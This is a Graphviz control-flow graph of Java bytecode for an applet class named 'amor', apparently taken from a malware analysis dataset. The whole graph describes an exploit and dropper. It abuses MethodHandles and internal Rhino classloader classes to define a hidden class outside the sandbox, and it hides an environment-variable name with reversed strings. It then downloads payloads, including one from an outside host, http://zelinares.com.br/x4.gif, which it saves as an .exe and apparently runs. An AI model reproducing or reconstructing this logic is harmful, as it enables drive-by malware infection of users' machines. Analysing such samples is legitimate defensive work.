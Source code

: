 digraph "" {
    "r0 := @this: amor"
    "new java.io.ByteArrayOutputStream"
    "r0 := @this: amor"->"new java.io.ByteArrayOutputStream";
    "store.r r2"
    "new java.io.ByteArrayOutputStream"->"store.r r2";
    "load.r r2"
    "store.r r2"->"load.r r2";
    "specialinvoke <java.io.ByteArrayOutputStream: void <init>()>"
    "load.r r2"->"specialinvoke <java.io.ByteArrayOutputStream: void <init>()>";
    "push 8192"
    "specialinvoke <java.io.ByteArrayOutputStream: void <init>()>"->"push 8192";
    "newarray"
    "push 8192"->"newarray";
    "store.r r9"
    "newarray"->"store.r r9";
    "load.r r0"
    "store.r r9"->"load.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "push \"B.class\""
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"push \"B.class\"";
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"
    "push \"B.class\""->"virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>";
    "store.r r1"
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"->"store.r r1";
    "load.r r1"
    "store.r r1"->"load.r r1";
    "load.r r9"
    "load.r r1"->"load.r r9";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"
    "load.r r9"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
    "store.i r6"
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.i r6";
    "load.i r6"
    "store.i r6"->"load.i r6";
    "ifle load.r r2"
    "load.i r6"->"ifle load.r r2";
    "ifle load.r r2"->"load.r r2";
    "load.r r2"->"load.r r9";
    "push 0"
    "load.r r9"->"push 0";
    "push 0"->"load.i r6";
    "virtualinvoke <java.io.ByteArrayOutputStream: void write(byte[],int,int)>"
    "load.i r6"->"virtualinvoke <java.io.ByteArrayOutputStream: void write(byte[],int,int)>";
    "goto load.r r1"
    "virtualinvoke <java.io.ByteArrayOutputStream: void write(byte[],int,int)>"->"goto load.r r1";
    "store.r r0"
    "goto load.r r1"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "ifle load.r r2"->"load.r r2";
    "virtualinvoke <java.io.ByteArrayOutputStream: byte[] toByteArray()>"
    "load.r r2"->"virtualinvoke <java.io.ByteArrayOutputStream: byte[] toByteArray()>";
    "virtualinvoke <java.io.ByteArrayOutputStream: byte[] toByteArray()>"->"store.r r1";
    "staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>"
    "store.r r1"->"staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>";
    "staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>"->"store.r r2";
    "store.r r2"->"load.r r0";
    "load.r r0"->"load.r r2";
    "push class \"Ljava/lang/Class;\""
    "load.r r2"->"push class \"Ljava/lang/Class;\"";
    "push \"forName\""
    "push class \"Ljava/lang/Class;\""->"push \"forName\"";
    "push \"forName\""->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/String;\""
    "push class \"Ljava/lang/Class;\""->"push class \"Ljava/lang/String;\"";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"
    "push class \"Ljava/lang/String;\""->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>";
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findStatic(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"->"virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findStatic(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>";
    "dup1.r"
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findStatic(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"->"dup1.r";
    "push 1"
    "dup1.r"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push \"sun.org.mozilla.javascript.internal.Context\""
    "push 0"->"push \"sun.org.mozilla.javascript.internal.Context\"";
    "arraywrite.r"
    "push \"sun.org.mozilla.javascript.internal.Context\""->"arraywrite.r";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"
    "arraywrite.r"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "checkcast"
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "store.r r5"
    "checkcast"->"store.r r5";
    "store.r r5"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push \"sun.org.mozilla.javascript.internal.GeneratedClassLoader\""
    "push 0"->"push \"sun.org.mozilla.javascript.internal.GeneratedClassLoader\"";
    "push \"sun.org.mozilla.javascript.internal.GeneratedClassLoader\""->"arraywrite.r";
    "arraywrite.r"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "store.r r6"
    "checkcast"->"store.r r6";
    "load.r r6"
    "store.r r6"->"load.r r6";
    "load.r r6"->"load.r r2";
    "push class \"Ljava/lang/invoke/MethodHandles$Lookup;\""
    "load.r r2"->"push class \"Ljava/lang/invoke/MethodHandles$Lookup;\"";
    "push \"findConstructor\""
    "push class \"Ljava/lang/invoke/MethodHandles$Lookup;\""->"push \"findConstructor\"";
    "push class \"Ljava/lang/invoke/MethodHandle;\""
    "push \"findConstructor\""->"push class \"Ljava/lang/invoke/MethodHandle;\"";
    "push class \"Ljava/lang/invoke/MethodHandle;\""->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/Class;\""->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push class \"Ljava/lang/invoke/MethodType;\""
    "push 0"->"push class \"Ljava/lang/invoke/MethodType;\"";
    "push class \"Ljava/lang/invoke/MethodType;\""->"arraywrite.r";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"
    "arraywrite.r"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>";
    "staticget <java.lang.Void: java.lang.Class TYPE>"
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"->"staticget <java.lang.Void: java.lang.Class TYPE>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"
    "staticget <java.lang.Void: java.lang.Class TYPE>"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"->"store.r r9";
    "push 3"
    "store.r r9"->"push 3";
    "push 3"->"newarray";
    "store.r r11"
    "newarray"->"store.r r11";
    "load.r r11"
    "store.r r11"->"load.r r11";
    "load.r r11"->"push 0";
    "push 0"->"load.r r2";
    "load.r r2"->"arraywrite.r";
    "arraywrite.r"->"load.r r11";
    "load.r r11"->"push 1";
    "load.r r5"
    "push 1"->"load.r r5";
    "load.r r5"->"arraywrite.r";
    "arraywrite.r"->"load.r r11";
    "push 2"
    "load.r r11"->"push 2";
    "push 2"->"load.r r9";
    "load.r r9"->"arraywrite.r";
    "arraywrite.r"->"load.r r11";
    "load.r r11"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 0";
    "push 0"->"newarray";
    "newarray"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r11";
    "store.r r11"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r9";
    "store.r r9"->"load.r r9";
    "load.r r9"->"push 0";
    "push 0"->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "arraywrite.r"->"load.r r9";
    "load.r r9"->"push 1";
    "push 1"->"push class \"Ljava/lang/invoke/MethodType;\"";
    "push class \"Ljava/lang/invoke/MethodType;\""->"arraywrite.r";
    "arraywrite.r"->"load.r r2";
    "load.r r2"->"push class \"Ljava/lang/invoke/MethodHandles$Lookup;\"";
    "push \"findVirtual\""
    "push class \"Ljava/lang/invoke/MethodHandles$Lookup;\""->"push \"findVirtual\"";
    "push \"findVirtual\""->"push class \"Ljava/lang/invoke/MethodHandle;\"";
    "push class \"Ljava/lang/invoke/MethodHandle;\""->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/Class;\""->"load.r r9";
    "load.r r9"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>";
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"->"store.r r9";
    "push class \"Ljava/lang/ClassLoader;\""
    "store.r r9"->"push class \"Ljava/lang/ClassLoader;\"";
    "push class \"Ljava/lang/ClassLoader;\""->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>";
    "store.r r14"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"->"store.r r14";
    "store.r r14"->"load.r r9";
    "load.r r9"->"load.r r5";
    "load.r r14"
    "load.r r5"->"load.r r14";
    "load.r r14"->"load.r r2";
    "virtualinvoke <amor: java.lang.invoke.MethodHandle gMH(java.lang.invoke.MethodHandle,java.lang.Class,java.lang.invoke.MethodType,java.lang.invoke.MethodHandles$Lookup)>"
    "load.r r2"->"virtualinvoke <amor: java.lang.invoke.MethodHandle gMH(java.lang.invoke.MethodHandle,java.lang.Class,java.lang.invoke.MethodType,java.lang.invoke.MethodHandles$Lookup)>";
    "virtualinvoke <amor: java.lang.invoke.MethodHandle gMH(java.lang.invoke.MethodHandle,java.lang.Class,java.lang.invoke.MethodType,java.lang.invoke.MethodHandles$Lookup)>"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r5";
    "store.r r5"->"load.r r5";
    "load.r r5"->"push 0";
    "push 0"->"load.r r11";
    "load.r r11"->"arraywrite.r";
    "arraywrite.r"->"load.r r5";
    "load.r r5"->"push 1";
    "push null"
    "push 1"->"push null";
    "push null"->"arraywrite.r";
    "arraywrite.r"->"load.r r5";
    "load.r r5"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r5";
    "store.r r5"->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/Class;\""->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push class \"[B\""
    "push 0"->"push class \"[B\"";
    "push class \"[B\""->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"store.r r11";
    "push 4"
    "store.r r11"->"push 4";
    "push 4"->"newarray";
    "newarray"->"store.r r14";
    "store.r r14"->"load.r r14";
    "load.r r14"->"push 0";
    "push 0"->"load.r r2";
    "load.r r2"->"arraywrite.r";
    "arraywrite.r"->"load.r r14";
    "load.r r14"->"push 1";
    "push 1"->"load.r r6";
    "load.r r6"->"arraywrite.r";
    "arraywrite.r"->"load.r r14";
    "load.r r14"->"push 2";
    "push \"defineClass\""
    "push 2"->"push \"defineClass\"";
    "push \"defineClass\""->"arraywrite.r";
    "arraywrite.r"->"load.r r14";
    "load.r r14"->"push 3";
    "push 3"->"load.r r11";
    "load.r r11"->"arraywrite.r";
    "arraywrite.r"->"load.r r9";
    "load.r r9"->"load.r r14";
    "load.r r14"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 3";
    "push 3"->"newarray";
    "newarray"->"store.r r2";
    "store.r r2"->"load.r r2";
    "load.r r2"->"push 0";
    "push 0"->"load.r r5";
    "load.r r5"->"arraywrite.r";
    "arraywrite.r"->"load.r r2";
    "load.r r2"->"push 1";
    "push 1"->"push null";
    "push null"->"arraywrite.r";
    "arraywrite.r"->"load.r r2";
    "load.r r2"->"push 2";
    "push 2"->"load.r r1";
    "load.r r1"->"arraywrite.r";
    "arraywrite.r"->"load.r r2";
    "load.r r2"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"
    "checkcast"->"virtualinvoke <java.lang.Class: java.lang.Object newInstance()>";
    "pop"
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"->"pop";
    "new java.lang.StringBuilder"
    "pop"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "push \"SRESULLA\""
    "load.r r0"->"push \"SRESULLA\"";
    "virtualinvoke <amor: java.lang.String rver(java.lang.String)>"
    "push \"SRESULLA\""->"virtualinvoke <amor: java.lang.String rver(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <amor: java.lang.String rver(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "push \"ELIFORP\""
    "load.r r0"->"push \"ELIFORP\"";
    "push \"ELIFORP\""->"virtualinvoke <amor: java.lang.String rver(java.lang.String)>";
    "virtualinvoke <amor: java.lang.String rver(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r6";
    "store.r r6"->"push null";
    "push null"->"store.r r1";
    "store.r r1"->"push 0";
    "store.b r2"
    "push 0"->"store.b r2";
    "store.b r2"->"store.r r6";
    "store.r r6"->"load.r r0";
    "push \"link\""
    "load.r r0"->"push \"link\"";
    "virtualinvoke <amor: java.lang.String getParameter(java.lang.String)>"
    "push \"link\""->"virtualinvoke <amor: java.lang.String getParameter(java.lang.String)>";
    "push \";\""
    "virtualinvoke <amor: java.lang.String getParameter(java.lang.String)>"->"push \";\"";
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"
    "push \";\""->"virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"->"store.r r6";
    "store.r r6"->"load.r r6";
    "load.r r6"->"push 0";
    "arrayread.r"
    "push 0"->"arrayread.r";
    "arrayread.r"->"store.r r9";
    "store.r r9"->"load.r r6";
    "load.r r6"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"store.r r5";
    "store.r r5"->"load.r r6";
    "load.r r6"->"push 2";
    "push 2"->"arrayread.r";
    "push \"0\""
    "arrayread.r"->"push \"0\"";
    "virtualinvoke <java.lang.String: boolean equals(java.lang.Object)>"
    "push \"0\""->"virtualinvoke <java.lang.String: boolean equals(java.lang.Object)>";
    "ifne load.r r0"
    "virtualinvoke <java.lang.String: boolean equals(java.lang.Object)>"->"ifne load.r r0";
    "ifne load.r r0"->"push 1";
    "push 1"->"store.b r2";
    "store.b r2"->"load.r r0";
    "load.r r0"->"load.r r9";
    "load.r r9"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\\jupdate.\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\jupdate.\"";
    "push \"\\jupdate.\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"load.r r5";
    "load.b r2"
    "load.r r5"->"load.b r2";
    "virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>"
    "load.b r2"->"virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>";
    "virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>"->"load.r r0";
    "push \"http://zelinares.com.br/x4.gif\""
    "load.r r0"->"push \"http://zelinares.com.br/x4.gif\"";
    "push \"http://zelinares.com.br/x4.gif\""->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\\ph3d3r4.\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\ph3d3r4.\"";
    "push \"\\ph3d3r4.\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "push \"exe\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"push \"exe\"";
    "push \"exe\""->"push 1";
    "push 1"->"virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>";
    "goto return"
    "virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>"->"goto return";
    "store.b r2"->"load.r r0";
    "load.r r0"->"load.r r6";
    "specialinvoke <amor: java.lang.String _get__env(java.lang.String)>"
    "load.r r6"->"specialinvoke <amor: java.lang.String _get__env(java.lang.String)>";
    "specialinvoke <amor: java.lang.String _get__env(java.lang.String)>"->"store.r r1";
    "goto load.r r0"
    "store.r r1"->"goto load.r r0";
}
